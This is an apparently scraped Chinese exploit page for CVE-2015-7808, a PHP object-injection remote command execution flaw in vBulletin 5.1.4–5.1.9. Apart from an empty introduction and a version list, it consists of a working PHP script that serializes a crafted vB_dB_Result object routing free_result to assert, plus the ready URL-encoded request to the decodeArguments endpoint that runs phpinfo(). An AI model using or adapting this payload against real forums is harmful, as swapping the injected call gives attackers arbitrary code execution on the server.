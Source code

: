 （CVE-2015-7808）远程命令执行漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

VBulletin VBulletin 5.1.4 - 5.1.9

三、复现过程
------------

    $ php << 'eof'
     <?php
     class vB_Database_MySQL{
            public $functions = array();

            public function __construct() 
            {
                    $this->functions['free_result'] = 'assert';
            }
     }

     class vB_dB_Result {
            protected $db;
            protected $recordset;

            public function __construct()
            {
                    $this->db = new vB_Database_MySQL();
                    $this->recordset = "phpinfo()";
            }
     }

     print urlencode(serialize(new vB_dB_Result())) . "n";
     eof
    http://0-sec.org/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D

image

